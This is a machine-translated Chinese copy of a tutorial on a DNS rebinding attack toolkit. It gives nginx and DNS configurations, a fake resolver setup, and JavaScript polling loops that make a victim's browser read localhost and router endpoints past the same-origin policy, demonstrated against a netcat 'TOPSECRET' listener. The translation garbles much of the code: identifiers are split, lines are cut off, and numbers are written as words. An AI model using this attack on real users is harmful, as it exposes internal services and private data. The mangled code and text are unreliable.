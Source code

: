 # DNS 重新绑定工具:带有自定义脚本的 DNS 重新绑定工具

> 原文：<https://kalilinuxtutorials.com/dns-rebinding-tool/>

[![DNS Rebinding Tool : DNS Rebind Tool With Custom Scripts](img//1de6b9be22f8cffb31adadaba7b3e529.png "DNS Rebinding Tool : DNS Rebind Tool With Custom Scripts")](https://1.bp.blogspot.com/-7KCtm48Ral8/YRPw7yGq58I/AAAAAAAAOXc/c6VvXwAu-EcadCYDpbl0kYWz87x4LwgHgCLcBGAsYHQ/s16000/xdr.PNG)

这个项目是一个多合一的工具包，用来测试进一步的 **DNS 重新绑定**攻击，以及我对这类攻击的理解。它由一个 web 服务器和一个只响应查询的伪 DNS 服务器组成。

web 服务器的根索引允许使用简单的 web gui 配置和运行攻击。参见 [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one/) 。

托管 web 服务器的基本 nginx 配置

服务器{
监听 80；
server _ name dnsrebindtool . 43z . one；
location/{
proxy _ pass http://localhost:5000；
}
}

**也读作-[subsh:在线子域检测脚本](https://kalilinuxtutorials.com/sub-sh-online-subdomain-detect-script/)**

web 服务器的/attack route 读取应该提供 basic64 编码的 javascript 的 GET 参数`script`,并用嵌入在常规 HTML 页面中的解码代码(包装在 setTimeout 周围)进行响应。

%科尔·"http://dnsrebindtool.43z.one/attack？script = YWxlcnQoMSk = "
<html>
<script>

setTimeout(function(){
alert(1)
}，3000)
</script>
</html

在我的域名 43z.one 的注册器中，我为子域`rebind`设置了一个 NS 记录，指向托管这个工具的 IP。

**NS A 81.4.124.10
重新绑定 NS ns.43z.one**

DNS 服务器只响应这种格式的查询

evcmxfm4g。81-4-124-10 .127-0-0-1。重新绑定。43z .一

第一部分(子域)只是一些随机 id，应该为每个攻击会话生成(web gui 在每次重新加载时都这样做)。第二个是 DNS 服务器在接下来的 2 秒内应该响应的 IP，第三个是在这段时间过后服务器应该响应的 IP。

$ date & & nslookup-type = a evcmxfm 4b . 81-4-124-10.127-0-0-1 . rebind . 43z . one
Fri 2018 年 2 月 2 日 21:18:20 CET
服务器:8.8.8.8
地址:8.8.8.8#53

非权威答案:
名称:evcmxfm 4b . 81-4-124-10.127-0-0-1

最后一个缺失的 peace 是用于重新绑定域的 nginx 配置。应该只将/attack 路径传递给工具，其他路径应该以错误响应。这允许使用除/attack 之外的所有路由攻击端口 80 上的其他服务。(例如/api/monitoring/stats 我的路由器暴露的端点)

服务器{
监听 80；
server _ name * . rebind . 43z . one；
外景/ {
回程 404；
}
位置/攻击{
proxy _ pass http://localhost:5000/attack；
}
}

**DNS 缓存驱逐**

var xhr = new XMLHttpRequest()
xhr . open(' GET '，' czg9g2olz.81-4-124-10.127-0-0-1 . rebind . 43z . one '，false)
xhr.send()
//浏览器第一次看到这个域就查询 dns 服务器
//并得到 81.4.124.10

//睡眠超过 2 秒

xhr.open('GET '，' czg 9g 2 olz . 81

这是这种攻击的问题。为了工作，浏览器必须重新发出新的 dns 查询以获得第二个 IP。理论上，如果您在两次请求之间等待足够长的时间，应该会发生新的查询。我的测试表明，虽然有一个更快，但更积极的方法。这很可能是特定于设置的。需要更多的测试我使用下面的脚本来测量等待变量的最佳值。在运行于 Debian buster/sid 上的 Chromium 62.0.3202.89 上测试。

var WAIT = 200
var start = date . now()

var interval = setInterval(function(){
var xhr = new XMLHttpRequest()
xhr . open(' GET '，'//' + $REBIND_DOMAIN，false)

xhr.send()

if(xhr . status = = 200){
document . body . innerhtml =(date . now()–start)/1000
document . body . innerhtml+= xhr . responsetext
clear interval(interval)
return
}
}，等待)

| 等待值(毫秒) | chrome 发送的请求 | 再次查询 dns 的时间 |
| --- | --- | --- |
| Zero | Seven hundred | Sixty |
| Ten | Seven hundred | Sixty |
| One hundred | Six hundred | Sixty-three |
| One hundred and twenty | Five hundred | Sixty-three |
| One hundred and fifty | four hundred | Sixty-three |
| one hundred and eighty  | four hundred | Seventy-five |
| Two hundred | Three hundred | Sixty-three |
| Two hundred and twenty | Three hundred | sixty-nine |
| Two hundred and fifty | Three hundred | seventy-eight |
| Two hundred and eighty | Three hundred | Eighty-seven |
| Three hundred | Two hundred | Sixty-three |
| Three hundred and twenty | Two hundred | Sixty-seven |
| Three hundred and forty | Two hundred | Seventy-one |
| Three hundred and sixty | Two hundred | Seventy-five |
| Three hundred and eighty | Two hundred | Seventy-nine |
| four hundred | Two hundred | Eighty-three |
| One thousand | One hundred | One hundred and three |

我开始了一个新的回购只是为了探索这个 [dns 缓存驱逐测试](https://github.com/h43z/dns-cache-eviction)

把所有这些放在一起并测试它。

```
echo -e "HTTP/1.1 200 OK\n\n TOPSECRET" | sudo nc -lvp 80 -q1 127.0.0.1
```

这个 netcat 实例提供了一些我想访问的内容。我保留默认的重新绑定域
**$ RANDOM $ . 81-4-124-10.127-0-0-1 . rebind . 43z . one**和默认脚本

var start = date . now()

var interval = setInterval(function(){
var xhr = new XMLHttpRequest()
xhr . open(' GET '，'//' + $REBIND_DOMAIN，false)
xhr . send()

if(xhr . status = = 200){
document . body . innerhtml =(date . now()–start)/1000
document . body . innerhtml+= xhr . respon

在 [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one/) 上点击攻击按钮。打开“开发工具网络”选项卡，查看后台发生的情况。对于我来说，大约 60 秒后用字符串`TOPSECRET`填充，需要的时间。DNS 重新绑定绕过了 [SOP](https://en.wikipedia.org/wiki/Same-origin_policy) 。要从 iframe 中获取被破坏的数据，可以使用[窗口。PostMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) 或者在脚本本身中包含将数据转发到另一个攻击者服务器的代码。

[**Download**](https://github.com/h43z/dns-rebinding-tool/)